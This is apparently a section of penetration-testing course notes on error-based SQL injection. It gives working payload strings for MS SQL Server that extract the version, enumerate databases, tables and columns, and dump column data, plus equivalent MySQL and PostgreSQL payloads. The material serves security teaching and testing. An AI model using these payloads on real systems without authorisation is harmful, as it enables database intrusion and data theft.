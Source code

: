 # 5.4.4 Exploiting Error-Based SQL Injection

## Exploiting Error-Based SQL Injection

Error-based SQL injections are an advanced technique to extract data from a database by triggering errors that reveal information within the error messages. This method is particularly fast and effective and is supported by various database management systems (DBMS) such as Oracle, PostgreSQL, and MS SQL Server.

### **MS SQL Server Error-based Exploitation**

**MS SQL Server Version Extraction:** To begin, it's crucial to identify the version of the MS SQL Server, as different versions may have different default column names in the master database. The `CAST` technique is employed to trigger a type conversion error, which reveals the database version. For example:

```sql
9999999 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096))); --
```

This payload, when injected into the vulnerable parameter, will cause an error message that includes the database version.

**Enumerating Databases:** After identifying the version, the next step is to enumerate the databases accessible to the current user. This is done using the `db_name()` function within a loop:

```sql
9999999 or 1 in (SELECT TOP 1 CAST (db_name(1) as varchar(4096))); --
```

Incrementing the argument of `db_name()` allows iterating through the available databases.

**Enumerating Database Tables:** Once databases are enumerated, the next step is to find the tables in a particular database:

```sql
9999999 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM <database_name>..sysobjects WHERE xtype='U' and name NOT IN ('')); --
```

Here, the `xtype='U'` condition ensures that only user-defined tables are considered.

**Enumerating Columns:** After identifying tables, the columns within those tables need to be enumerated:

```sql
9999 or 1 in (SELECT TOP 1 CAST (<db_name>..syscolumns.name as varchar(4096)) FROM <db_name>..syscolumns,<db_name>..sysobjects WHERE <db_name>..syscolumns.id=<db_name>..sysobjects.id AND  <db_name>..sysobjects.name=<table_name> AND <db_name>..syscolumns.name NOT IN ('')); --
```

This query retrieves the column names for a specific table in the specified database.

**Dumping Data:** Finally, with knowledge of the database structure, data can be dumped using a similar technique:

```sql
9999999 or 1 in (SELECT TOP 1 CAST(<column_name> as varchar(4096)) FROM <database_name>..<table_name> WHERE <column_name> NOT IN ('')); -- -
```

This query retrieves the actual content of the specified column in the specified table.

### **MySQL Error-Based SQLi Exploitation**

To exploit error-based SQL injection on MySQL, the `GROUP BY` statement is utilized. An example payload skeleton is as follows:

```sql
SELECT 1,2 UNION SELECT COUNT(*), CONCAT(<information_to_extract>, floor(rand(0)*2)) AS x FROM information_schema.tables GROUP BY x;
```

For example, to extract the database version:

```sql
SELECT COUNT(*), CONCAT(version(), floor(rand(0)*2)) AS x FROM information_schema.tables GROUP BY x;
```

### **PostgreSQL Error-Based SQLi Exploitation**

Error-based SQL injection on PostgreSQL involves leveraging the cast technique. For example, to extract the database version:

```sql
select cast(version() as numeric);
```

Iterating over the `information_schema` table allows enumerating tables:

```sql
select cast((select table_name from information_schema.tables limit 1 offset 0) as numeric);
select cast((select table_name from information_schema.tables limit 1 offset 1) as numeric);
select cast((select table_name from information_schema.tables limit 1 offset 2) as numeric);
```

Similar to MS SQL Server, error-based SQL injection requires understanding the functions and syntax specific to each DBMS. PentestMonkey's SQL injection cheat sheets can be valuable references for crafting payloads tailored to different databases:

* [MSSQL Injection Cheat Sheet](https://www.pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [MySQL Injection Cheat Sheet](https://www.pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
* [PostgreSQL Injection Cheat Sheet](https://www.pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)

\






